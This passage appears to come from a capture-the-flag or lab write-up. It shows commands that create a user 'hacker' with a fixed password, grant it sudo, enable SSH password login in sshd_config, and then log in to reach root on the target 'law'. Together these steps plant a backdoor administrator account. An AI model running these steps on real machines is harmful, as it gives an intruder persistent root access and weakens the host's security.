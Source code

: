 

We go on to set up a new user for ssh... the usual:

- `sudo useradd -m hacker`
- `echo hacker:password | sudo chpasswd`
- `sudo usermod -aG sudo hacker`
- `echo 'PasswordAuthentication yes' >> /etc/ssh/sshd_config` (because we saw it was disabled)
- `systemctl restart ssh` (because we modified config)


And we test it out

```
┌──(kali㉿kali)-[~]
└─$ ssh hacker@law
hacker@law's password: 

...

$ sudo whoami
[sudo] password for hacker: 
root
```